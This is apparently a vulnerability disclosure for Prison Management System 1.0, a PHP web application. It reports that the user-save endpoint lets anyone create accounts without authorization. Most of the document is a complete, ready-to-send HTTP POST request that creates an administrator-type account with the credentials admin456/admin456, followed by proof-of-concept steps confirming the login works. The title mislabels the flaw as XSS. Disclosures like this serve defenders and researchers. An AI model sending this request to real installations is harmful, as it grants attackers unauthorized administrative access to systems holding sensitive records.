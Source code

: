 # Prison Management System  -create_new user Identification and Authentication Failures


#### Exploit Title: Prison Management System  - create_new user Identification and Authentication Failures(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.
Can create a new user without authorization

#### Payload used:
```
POST /pms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29640840124261413792559575304
Content-Length: 1033
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/admin/?page=user/manage_user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="id"


-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="firstname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="middlename"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="lastname"

123
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="username"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="password"

admin456
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="type"

1
-----------------------------29640840124261413792559575304
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------29640840124261413792559575304--


```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/pms/admin/?page=user/list，See one more user added.

   ![image-20220607102303096](img/PrisonManagementSystem--.assets/image-20220607102303096.png)

   

   

3. `admin456/admin456` can login system;

     ![image-20220607103500640](img/PrisonManagementSystem--.assets/image-20220607103500640.png)



